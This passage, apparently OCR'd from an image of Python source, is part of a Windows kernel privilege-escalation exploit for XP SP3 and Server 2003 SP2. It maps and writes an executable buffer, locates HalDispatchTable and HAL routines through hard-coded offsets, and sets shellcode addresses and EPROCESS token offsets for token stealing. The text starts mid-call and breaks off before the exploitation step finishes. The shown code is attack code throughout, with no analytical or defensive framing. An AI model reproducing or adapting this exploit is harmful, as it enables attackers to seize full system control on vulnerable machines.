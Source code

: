                                          byref(RegionSize),
                                         MEMRES,
                                         PAGEEXE)
    # Copy input buffer to it
    kernel32.WriteProcessMemory(-1, 0x1000, irpstuff, 0x100, byref(written))
    startPage = c_int(0x00020000)
    kernel32.VirtualProtect(startPage, 0x1000, PAGEEXE, byref(written))
    ################################# KERNEL INFO ##################################
    lpDriver     = c_char_p()
    lpPath       = c_char_p()
    lpDrvAddress = c_long()
    (krnlbase, kernelver) = findSysBase()
    hKernel = kernel32.LoadLibraryExA(kernelver, 0, 1)
    HalDispatchTable = kernel32.GetProcAddress(hKernel, "HalDispatchTable")
    HalDispatchTable -= hKernel
    HalDispatchTable += krnlbase
    print "[+] HalDispatchTable address:", hex(HalDispatchTable)
    halbase = findSysBase("hal.dll")
    ## WinXP SP3
    if OS == "XP":
        HaliQuerySystemInformation = halbase+0x16bba # Offset for XPSP3
        HalpSetSystemInformation   = halbase+0x19436 # Offset for XPSP3
    ## Win2k3 SP2
    else:
        HaliQuerySystemInformation = halbase+0x1fa1e # Offset for WIN2K3
        HalpSetSystemInformation   = halbase+0x21c60 # Offset for WIN2K3
    print "[+] HaliQuerySystemInformation address:", hex(HaliQuerySystemInformation)
    print "[+] HalpSetSystemInformation address:", hex(HalpSetSystemInformation)

    ################################# EXPLOITATION #################################
    shellcode_address_dep   = 0x0002071e
    shellcode_address_nodep = 0x000207b8
    padding           = "\x90"*2
    HalDispatchTable0x4 = HalDispatchTable + 0x4
    HalDispatchTable0x8 = HalDispatchTable + 0x8
    ## tokenbkaddr      = 0x00020900
    if OS == "XP":
        _KPROCESS = "\x44"
        _TOKEN    = "\xc8"
        _UPID     = "\x84"
        _APLINKS  = "\x88"
    else:
        _KPROCESS = "\x38"
        _TOKEN    = "\xd8"
        _UPID     = "\x94"
        _APLINKS  = "\x98"

